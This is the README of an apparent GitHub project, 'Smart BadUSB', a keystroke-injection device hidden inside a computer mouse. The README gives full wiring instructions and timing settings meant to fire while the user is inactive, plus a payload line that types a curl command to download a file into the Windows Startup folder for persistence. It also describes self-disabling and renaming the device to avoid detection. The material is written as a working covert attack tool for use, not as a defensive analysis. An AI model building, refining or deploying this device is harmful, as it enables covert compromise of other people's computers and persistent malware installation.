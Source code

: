 <h1>Smart BadUSB Project</h1>

<img src="https://github.com/BhawksGit/SmartBadUSB/blob/main/images/titleSlide.png?raw=true" alt="Smart BadUSB Title Slide">

<h2>Project Overview</h2>
<p>The Smart BadUSB is a modified USB device that mimics a keyboard but is embedded within a standard USB computer mouse. It executes a malicious payload when connected to a host computer without any obvious signs of its presence, making it more discreet than a traditional BadUSB device.</p>

<h2>Key Features</h2>
<ul>
    <li>Detection of the host operating system using HID protocol.</li>
    <li>Use of a photodiode to check for mouse LED activity to determine the best time to execute the payload.</li>
    <li>Self-destruct feature that disables the Arduino after successful payload execution.</li>
</ul>

<h2>Hardware Requirements</h2>
<ul>
    <li>Arduino Pro Micro</li>
    <li>USB 2.0 Expansion Module</li>
    <li>5mm Photodiode</li>
    <li>120 Ohm Resistor</li>
    <li>26 AWG or similar Wire</li>
    <li>Micro USB Solderable Plug or a spliced phone cable</li>
    <li>Soldering Iron & Solder</li>
</ul>

<h2>Wiring How-To</h2>
<p>This section provides detailed, step-by-step instructions on how to integrate the Arduino into the mouse hardware along with a USB hub and a photodiode. Follow these steps carefully, and refer to the wiring diagram for visual guidance.</p>

<ol>
    <li><strong>Preparing the Mouse Cable:</strong> Remove the USB connector from the mouse motherboard. Cut off the end connector, then strip the four wires (data+, data-, positive, and ground).</li>
    <li><strong>Wiring the Mouse to the USB Hub:</strong> Connect these four wires to the USB_IN line on the USB hub, labeled on the back side of the hub. Ensure the connections match the standard USB layout:
        <ul>
            <li><strong>Red:</strong> Positive wire, carries 5V direct current.</li>
            <li><strong>Black:</strong> Ground wire.</li>
            <li><strong>White:</strong> Positive data (D+).</li>
            <li><strong>Green:</strong> Negative data (D-).</li>
        </ul>
    </li>
    <li><strong>Connecting the Arduino:</strong> Solder four wires to a micro USB solderable plug and connect these wires to another set of USB pins on the USB hub. Be mindful of matching the wire connections correctly. Connect the micro USB plug to the Arduino.</li>
    <li><strong>Reconnecting the Mouse USB:</strong> Solder four additional wires to the bottom pads where the USB connector was originally attached to the mouse, and connect these wires to another set of USB pins on the USB hub. Ensure correct wiring alignment.</li>
    <li><strong>Wiring the Photodiode:</strong> Solder the positive lead of the photodiode (the longer one) to a 120-ohm resistor, then connect this lead to pin A2 on the Arduino. Solder the other, shorter side of the photodiode to ground.</li>
    <li><strong>Positioning the Photodiode:</strong> Position the photodiode so that its top faces the internal mouse LED to capture lighting changes. Adjust the <code>activeSensorValue</code> based on the brightness of the LED, which may vary between mouse models. This adjustment can be made by adding a serial debug statement to continuously print out the sensor value.</li>
    <li><strong>Securing Components:</strong> Glue the components in place atop the mouse motherboard. Depending on the mouse model, you may need to modify the plastic housing inside the mouse (using clippers or a Dremel) to accommodate the new components.</li>
</ol>

<p>Ensure all connections are secure and double-check for any potential shorts. For more clarity, see the included wiring diagram:</p>
<img src="https://github.com/BhawksGit/SmartBadUSB/blob/main/images/wiring.png?raw=true" alt="Wiring Diagram">

<h2>Using the Program</h2>
<p>This program is designed to operate with specific pin settings and timing variables to effectively deploy a payload on Windows systems. Below are instructions on how to adjust key parameters and deploy the payload safely and effectively.</p>

<h3>Pin Configuration</h3>
<p>Do not change the pin configuration unless necessary, as they are set to match the hardware setup:</p>
<ul>
    <li><strong>photoTransistorPin</strong>: Analog pin A2, used for the phototransistor sensor.</li>
    <li><strong>VCCPin</strong>: Digital pin 15, used as VCC.</li>
    <li><strong>GNDPin</strong>: Digital pin 16, used as ground.</li>
</ul>

<h3>Timing Variables</h3>
<p>Adjust the following timing variables based on the environmental conditions and the Windows system you are targeting:</p>
<ul>
    <li><strong>interval</strong> (500 ms): Frequency at which the sensor checks are performed.</li>
    <li><strong>bootTime</strong> (5000 ms): Wait time after the device is powered on, allowing the PC to boot.</li>
    <li><strong>inactiveTime</strong> (5000 ms): Duration to consider the mouse inactive if no movement is detected.</li>
    <li><strong>lockToCoverScreenTime</strong> (65000 ms): Time to wait for the Windows lock screen to revert to the cover screen.</li>
    <li><strong>activeSensorCount</strong> (500): Count of sensor readings indicating active mouse usage before considering the mouse active.</li>
    <li><strong>activeSensorValue</strong> (1016): Sensor reading threshold to determine mouse activity. Adjust based on your phototransistor's sensitivity.</li>
</ul>

<h3>Payload Execution</h3>
<p>To modify the payload, alter the command within the <code>executePayload</code> function:</p>
<pre>
Keyboard.print("cmd /c curl -L URL -o \"%APPDATA%/Microsoft/Windows/Start Menu/Programs/Startup/Pagefile.vbs\" >nul 2>&1");
</pre>
<p>Replace the URL and file path as needed for your specific payload. Ensure that the commands are compatible with the Windows command line interface.</p>
<h3>Operational Flow</h3>
<p>Upon startup, the device checks if it has executed the payload previously through EEPROM state checking. If the payload has not been executed, it continues with the boot process, waiting for the PC to boot, and detecting mouse and system activity to determine the optimal time to deploy the payload.</p>

<h3>Compatibility</h3>
<p>Currently, this program is designed to work exclusively with Windows-based systems. It leverages specific Windows features, such as the "Run" dialog and keyboard shortcuts, to execute its payload effectively.</p>
<p>Support for Mac and Linux systems is under development, focusing on adapting to different system behaviors and command execution methods specific to these platforms.</p>

<h3>Resetting the Device</h3>
<p>If you need to reset the device and clear the EEPROM:</p>
<pre>
// To reset the EEPROM, short pin 8 to ground momentarily. This clears the flag and allows the payload to be executed again.
EEPROM.write(0, 0);
</pre>

<h3>Debugging</h3>
<p>For debugging purposes, use the serial output to monitor the status and operation of the device. Ensure to disable or remove serial debugging in the final deployment to avoid detection.</p>

<h2>Renaming the Arduino Device for Obfuscation</h2>
<p>To further disguise your Smart BadUSB device, you can rename its identification to something less suspicious, such as "USB Device". This process involves using the Musinou hardware library to customize the USB device name.</p>

<h3>Steps to Rename Your Arduino Device:</h3>
<ol>
    <li><p><strong>Download the Musinou Hardware Library:</strong> Download and extract the Musinou hardware configuration files from <a href="https://liveelectronics.musinou.net/code/mididevicename/">this link</a> and place them under <code>/Users/username/Documents/Arduino/hardware/</code> on your computer.</p></li>
    <li><p><strong>Modify Device Settings:</strong> Close your Arduino IDE if it's open. Navigate to <code>/Users/username/Documents/Arduino/hardware/musinou/avr/</code> and open the <code>boards.txt</code> file. Locate the lines for your Arduino model, for example:</p>
        <pre>
micromusinou.build.vid=0x2340
micromusinou.build.pid=0x8030
micromusinou.build.usb_product="Arduino Micro Musinou"
        </pre>
        <p>Change the <code>usb_product</code> value to a generic name, in this case we'll make it "USB Device".</p>
    </li>
    <li><p><strong>Save Changes and Reopen the IDE:</strong> Save the modified <code>boards.txt</code> file. Reopen the Arduino IDE, and select "USB Device" as the board.</p></li>
    <li><p><strong>Upload Your Code:</strong> Upload your existing Smart BadUSB code to the Arduino. This process will install the code under the new device name, making it appear as a generic "USB Device" in system reports and connected devices lists.</p></li>
    <li><p><strong>Verify Device Name:</strong> Connect the Arduino to a computer. The device should now display with the new name "USB Device".</p></li>
</ol>

<p>This renaming technique adds an extra layer of stealth, making the Smart BadUSB less noticeable and suspicious when connected to a host computer.</p>

<h2>Installation and Setup</h2>
<p>Refer to the Arduino IDE for uploading the provided <code>SmartBadUSB_Program_Arduino_Pro_Micro.ino</code> script to the Arduino Pro Micro. Detailed wiring instructions and setup procedures can be found in the documentation linked below.</p>
<a href="https://github.com/BhawksGit/SmartBadUSB">GitHub Repository</a>

<p>Thank you for exploring the Smart BadUSB project. For more information or to contribute, please visit the GitHub repository linked above.</p>
